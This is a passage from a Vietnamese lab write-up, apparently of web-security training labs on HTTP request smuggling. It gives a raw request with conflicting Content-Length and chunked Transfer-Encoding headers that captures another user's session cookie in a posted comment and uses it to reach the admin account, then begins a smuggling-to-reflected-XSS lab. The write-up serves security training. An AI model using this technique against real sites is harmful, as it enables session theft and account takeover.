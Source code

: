 ```
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 257
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 950
Cookie: session=4Y2ExAWPnueCvqOXTtV4mMZMkfFfK0Nb

csrf=1OqlRu6xzqrZ88TmL1G5BjAgBJiqcfp1&postId=5&name=ducanh&email=ducanh%40gmail-com&website=&comment=


```
![image](https://hackmd.io/_uploads/rJg9G6mOR.png)

>Lúc này, ta khai báo `Content-Length: 950` > kích thước body của attack request mới có `101`, cho nên back-end server sẽ chờ đợi data gửi đến sao cho đúng kích thước. Lúc này, request của người dùng khác được gửi đi, sẽ vô tình nối vào sau `comment` và server sẽ render phần comment của ta, vô tình làm lộ request gồm thông ti cookie của người dùng khác!: 
>![image](https://hackmd.io/_uploads/rkwh6pQdA.png)

>Thêm cookie vào request, ta truy cập được vào tài khoản admin:
>![image](https://hackmd.io/_uploads/H1PMRp7_C.png)

>Hoàn thành bài lab:
>![image](https://hackmd.io/_uploads/H1UmC6QOA.png)


### **10. Lab: Exploiting HTTP request smuggling to deliver reflected XSS**
![image](https://hackmd.io/_uploads/B1hOvamdR.png)

>Như lab trước, lab này có chức năng comment ở mỗi bài lab, thử comment hợp lệ:
>![image](https://hackmd.io/_uploads/S1pquTmOC.png)
![image](https://hackmd.io/_uploads/Hkbhd6Qd0.png)

>Nhưng khác lab trước, bài này thêm cả giá trị của header `User-Agent` vào phần body của request khi post comment!

>Xem lại form comment thì thấy 1 hidden value `name="userAgent"` lấy giá trị từ header `User-Agent`:
>![image](https://hackmd.io/_uploads/r1gDKT7dR.png)
